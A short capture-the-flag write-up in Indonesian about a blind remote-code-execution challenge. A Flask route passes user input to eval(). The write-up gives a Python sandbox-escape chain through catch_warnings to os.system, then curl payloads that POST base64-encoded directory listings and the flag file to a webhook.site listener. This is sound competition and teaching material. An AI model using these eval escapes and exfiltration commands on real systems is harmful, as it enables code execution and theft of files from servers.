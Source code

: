 ## Blind RCE

```python
@app.route("/")
def index():
    req = request.args.get("easy", "True")
    print(req)
    eval(req, {"__builtins__": {}}, {})

    return "OK"
```
- RCE yang disebabkan fungsi eval namun hanya mereturn 'OK'
----
## Pyjail

- [Bypass Python Sandboxes]('https://book.hacktricks.xyz/misc/basic-python/bypass-python-sandboxes')
```python
[c for c in ().__class__.__base__.__subclasses__() if c.__name__ == "catch_warnings"][0]()._module.__builtins__["__import__"]("os")
```

- Tanpa menggunakan manual method untuk mencari class catch_warnings, gunakan comprehension list yang nantinya memanggil fungsi os.system()
-----
## Solve

- Setelah mendapat rce, terdapat kejanggalan karena reverse shell tidak berhasil.
- Solusi yaitu menggunakan curl karena dapat menerima http request yaitu flagnya dari server rce.
- Dengan memanfaatkan webhook sebagai listener

### payload 1
```python
[c for c in ().__class__.__base__.__subclasses__() if c.__name__ == "catch_warnings"][0]()._module.__builtins__["__import__"]("os").system('curl -X POST -d $(ls / | base64 -w 0) https://webhook.site/77128289-88a0-42a9-b37a-0f77c39f003b')
```

### payload 2
```python
[c for c in ().__class__.__base__.__subclasses__() if c.__name__ == "catch_warnings"][0]()._module.__builtins__["__import__"]("os").system('curl -X POST -d $(cat /flag-5d89320ac7ab789ac1beb60c294f526e.txt | base64 -w 0) https://webhook.site/77128289-88a0-42a9-b37a-0f77c39f003b')
```
### flag
LKSSMK{baby_python_is_really_easy}
